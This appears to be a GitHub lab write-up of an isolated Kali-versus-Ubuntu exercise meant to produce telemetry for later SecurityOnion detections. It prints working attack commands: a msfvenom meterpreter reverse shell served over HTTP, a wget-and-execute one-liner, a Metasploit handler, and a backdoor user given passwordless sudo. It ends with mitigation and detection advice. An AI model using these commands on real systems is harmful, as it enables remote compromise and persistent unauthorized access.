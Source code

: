 ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)

---

- Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

- Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!

---

  ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'

---

  INITIAL ACCESS AND EXECUTION

1.Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

2.Artifacts / screenshots
-Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
-Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
-Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
-Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
-Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

3.What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

4. Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

5.On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

6. Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444

---

   PERSISTANCE
   
1. Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

2. Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

3. Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user

---

   PRIVILEGE ESCALATION
   
1. Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

2. Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

3. Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root

---

   CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.

---

   LESSION'S LEARNED AND MITIGATION

  Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.

---

  Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)

---

  Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



